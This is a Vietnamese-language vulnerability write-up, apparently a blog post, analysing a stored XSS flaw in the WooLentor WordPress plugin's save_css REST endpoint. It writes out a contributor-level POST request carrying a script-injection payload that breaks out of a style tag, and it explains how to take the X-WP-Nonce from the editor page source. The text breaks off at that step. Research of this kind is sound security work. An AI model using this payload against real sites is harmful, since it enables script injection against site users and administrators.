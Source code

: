 Có nhiều kết quả, nhưng vì ta đang phân tích tính năng **REST API**, nên tập trung vào file **Api.php**.

`register_routes( $namespace )` thuộc class `Manage_Styles` yêu cầu tham số `$namespace` nên có thể `woolentor/v1` được truyền ở đây thông qua thể hiện của class gọi đến hàm. ta tìm với từ khóa `Manage_Styles` trong file **Api.php** để biết nó được gọi như vậy không.

{{< figure src="callapi.png" caption="Call Api" >}}

`namespace` chính xác được gọi và truyền như vậy.

👉 Như vậy, khi gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css`, callback `save_block_css` được gọi để thêm/sửa block CSS trong file và database.
Khi truy cập vào post có `post_id` liên quan đến block CSS được lưu, `generate_inline_css` sẽ lấy nội block CSS và inline CSS trong thẻ `<style type="text/css"></style>` của post.

## Exploit

### Detect XSS

Sử dụng user có role **contributor** tạo 1 post bất kì, ghi nhớ id của post đó.

Gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css` với XSS payload

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 Thiếu header **X-WP-Nonce** để phân quyền người dùng. Ta mở source HTML (<kbd>Ctrl</kbd>+<kbd>U</kbd>) trang chỉnh sửa bài viết:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Tìm `wpApiSettings` trong source và lấy giá trị `nonce`
